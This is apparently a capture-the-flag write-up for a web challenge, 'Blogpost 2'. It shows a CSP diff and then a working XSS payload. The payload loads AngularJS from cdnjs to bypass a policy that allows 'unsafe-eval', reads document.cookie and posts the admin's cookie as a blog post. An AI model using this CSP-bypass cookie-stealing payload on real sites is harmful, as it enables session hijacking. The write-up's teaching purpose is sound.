

# Blogpost 2

> Points: 725 [?]

## Description

> Look out for my blog posts, again!!
> File: `web_blogpost2.zip`

## Solution

### Understanding the application's features

As a follow-up to the `Blogpost` challenge, the application's features do not differ that much. However, there was a small difference in the source code.

### Analysing the source code

By using the `diff` command , we see that only the `src/app/index.js` differed between both applications.

```bash
$ diff web_blogpost/src/app/index.js web_blogpost2/src/app/index.js  
14c14
<         "default-src 'self'; script-src 'unsafe-inline' 'self' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
---
>         "default-src 'self'; script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
```

This affects our payload as this meant that the browser will no longer execute our inline javascript.


However, if we use Google's CSP Evaluator, we learn that the new CSP is still bypassable.



### Stealing the flag from the admin user

With a bit of [googling](https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques) and modifying our payload to achieve the same purpose,


We create a new blog post with an arbitrary title and the following content:

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>
{{$eval.constructor('fetch("/post",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({title:"get flag here",content:document.cookie})});')()}}
</div>
```


After clicking on `Create` and browsing to the blog page, we see a new post by the `admin` user, with the flag printed nicely.


## Flag
`STF22{f4k3_fl4g_f0r_t3st1ng}`
